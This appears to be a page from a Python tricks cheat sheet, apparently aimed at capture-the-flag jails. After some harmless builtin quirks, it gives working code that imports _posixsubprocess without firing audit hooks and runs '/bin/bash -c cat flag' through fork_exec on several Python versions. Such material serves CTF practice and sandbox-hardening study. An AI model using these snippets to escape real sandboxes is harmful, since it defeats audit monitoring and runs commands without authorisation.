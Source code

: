 ## Weird little things
### Builtin functions don't bind to instances
In other words, `print.__get__(self)` is a no-op.
```py
>>> quit.__class__.__add__ = lambda *args: print(args)
>>> quit + 5
(Use quit() or Ctrl-Z plus Return to exit, 5)
>>>
>>> help.__class__.__add__ = print
>>> help + 5
5
```


## **Bypassing Audits Filters**

### Auditless import
```py
__loader__.load_module('_posixsubprocess')
object.__subclasses__()[84].load_module('_posixsubprocess')
```
`_imp` is always loaded, so this doesn't trigger the `import` audit:
```py
import _imp
x = lambda: None
x.name = '_posixsubprocess'
x.origin = None
s = _imp.create_builtin(x)
```

### Auditless code execution
Python version: `3.8-`
```py
import _posixsubprocess as s
s.fork_exec([b'/bin/bash', b'-c', b'cat flag'], [b'/bin/bash'], True, (0,1), None, None, -1, -1, -1, -1, -1, -1, 0, 3, False, False, None)
```

Python version: `3.9+`
```py
import _posixsubprocess as s
s.fork_exec([b'/bin/bash', b'-c', b'cat flag'], [b'/bin/bash'], True, (0,1), None, None, -1, -1, -1, -1, -1, -1, 0, 3, False, False, -1, None, None, -1, None)
```

Python version: `3.11+`
```py
import _posixsubprocess as s
s.fork_exec([b'/bin/bash', b'-c', b'cat flag'], [b'/bin/bash'], True, (0,1), None, None, -1, -1, -1, -1, -1, -1, 0, 3, False, False, -1, None, None, -1, -3, None, None)
```
